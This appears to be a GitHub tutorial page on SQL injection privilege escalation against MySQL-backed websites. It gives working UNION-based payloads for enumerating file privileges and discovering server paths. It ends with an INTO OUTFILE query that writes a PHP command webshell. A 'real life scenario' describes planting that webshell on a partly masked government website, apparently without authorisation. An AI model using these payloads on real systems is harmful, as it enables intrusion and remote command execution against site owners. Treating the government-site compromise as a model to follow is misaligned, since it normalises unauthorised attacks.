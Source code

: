 # SQL Privilege Escalation

## Identifying permissions of a single user

If the database user has write permission, it allows an attacker to upload arbitrary files in the server.

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:
```
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```
Payload used for Privilege Check via MySQL System Table:
```
(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)
```

Apply one of the queries into the 4th column:
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

The typical method for discovering a path involves querying the temporary path in SQL. To achieve this, we can utilize the following query to retrieve absolute path directories:
```
@@slave_load_tmpdir
@@basedir
@@datadir
@@tmpdir
```
Look at the output, you should look after a directory, something like this: /var/mysqltmp
This means that we can upload files to /mysqltmp

An alternative approach, especially when a website is prone to errors, is to trigger a 'Fatal Error' or a Syntax Error. The absolute path will then be revealed, typically highlighted or bolded, similar to the image below. Please be aware that various websites may display different outputs and formats.

![image](https://github.com/29yannic/Ethical-Hacking/assets/76999460/095ab819-4078-46fe-9419-10fbd8c9cac8)

The bold part is the absolute path: E:\xampp\htdocs which is converted to E:/xampp/htdocs

## Real life scenario (Thanks to user kleiton0x00)

Below is a simple writeup of how I managed to upload a webshell in a gov website. Using the following query I found out that column 7 was vulnerable:
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,7,8--```

Let's enumerate the user's privilege:
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),8--```

The output looks promising, the user j**** has writing permission, which mean we can write arbitrary files:
[privilege_check_output](https://camo.githubusercontent.com/652d45ede363f43bfcb9e1469a51145fda6837caa21c53421c5e67bbf36cc310/68747470733a2f2f692e696d6775722e636f6d2f473848523754712e6a7067)

Now it's time to find an existing path so we know where to write our webshell. For this I am going to use some global variables (which we already discussed here)
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,@@slave_load_tmpdir,8--```

The output is:
```C:\xampp\tmp```

Great, so now let's upload a webshell to C:\xampp\tmp:
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,"<?php system($_GET['cmd']); ?>",8 into outfile 'C:/xampp/tmp/webshell.php'--```

I tried to find a way how to access our webshell, but since it is uploaded on /tmp directory, there was no chance to directly access it. In this case, we use load_file() function. ```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,load_file('C:/xampp/tmp/webshell.php'),8--```

If we see the source-code of the response, we can see our webshell uploaded:
![image](https://github.com/29yannic/Ethical-Hacking/assets/76999460/f2a60318-98f1-411f-a42d-c7de8175898d)

Note: This is a simple PoC, in real-life pentest engagements, you might prefer uploading a proper webshell instead, since it is easier to interact with it.

